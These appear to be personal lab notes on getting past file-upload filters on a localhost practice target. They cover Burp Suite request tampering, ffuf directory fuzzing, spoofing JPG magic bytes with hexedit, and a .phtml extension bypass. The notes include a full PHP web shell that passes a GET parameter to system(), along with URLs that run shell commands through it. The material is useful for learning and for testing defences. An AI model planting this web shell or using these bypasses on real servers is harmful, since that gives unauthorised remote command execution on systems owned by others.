 # Basic Bypass
- website allows file upload
- Only JPG and PNG files, otherwise displays an error.
	- ![](assets/Pasted%20image%2020240211215518.png)
- Intercept requests using Burp Suite to check for restrictions.
- Upload PHP cmd file by manipulating the data and renaming it.
	- `filename=cmd.php`

- dirbust with ffuf
  ```bash
ffuf -ic -u "http://localhost/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -fc 404,403,401 -fs 4431 -e .txt,.php,.bak,.sql
  ```

- fuzz labs
  ```bash
  $ ffuf -ic -u "http://localhost/labs/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -fc 404,403,401 -fs 4431 -e .txt,.php,.bak,.sql
  ```
  - has /uploads
```bash
localhost/labs/uploads/cmd.php?cmd:ls%20/
```

# Magic Bytes

Magic Bytes are like secret codes in files that tell computers what type of file they are. You can find a bunch of them [here](https://en.wikipedia.org/wiki/List_of_file_signatures?ref=danielxblack.ghost.io).

## **Exploitation**

- create file with extension `.php.jpg`.
- put php file to check cmd:
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

- uploaded `JPG` or `PNG` file, 
	- they have magic bytes: `FFD8 DDE0`, `FFD8 FFDB`, or `FFD8 FFE1`.
- tweak the first and last bytes using a tool called **hexedit**. 
	- `hexedit cmd.php`
	- Change the first bytes to: `FFD8 FFDB`
	- Change the last bytes to: `FFD9` (JPG file)

- upload file, then intercept the request.
- Forward to **Repeater** and rename to **cmd.php**

```bash
localhost/labs/uploads/cmd.php?cmd=ls+-la+%2F
```


# Challenge
- use previous payload
- bypass filetype check with `.phtml`
